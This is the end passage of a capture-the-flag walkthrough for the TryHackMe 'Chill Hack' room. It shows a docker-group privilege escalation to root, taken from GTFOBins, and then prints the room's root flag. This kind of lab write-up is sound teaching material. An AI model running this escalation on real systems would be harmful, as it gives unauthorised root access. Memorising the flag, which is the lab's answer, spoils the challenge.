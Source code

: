 We can take advantage of this to get a root shell.

We can see how to do this in [GTFO].

```sh
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

![elevate privileges](/images/THM/chillhack/Captura32.PNG)

Now that we are root, we can see the last flag.

```sh
cd /root
cat proof.txt
```

And with this we will have completed the machine!

![root flag](/images/THM/chillhack/Captura33.PNG)

- Root Flag
>Answer: {ROOT-FLAG: w18gfpn9xehsgd3tovhk0hby4gdp89bg}

 [Chill Hack]: https://tryhackme.com/room/chillhack
 [GTFO]:https://gtfobins.github.io/gtfobins/docker/
 ["\\"]:https://pubs.opengroup.org/onlinepubs/9699919799/utilities/V3_chap02.html#tag_18_02_01
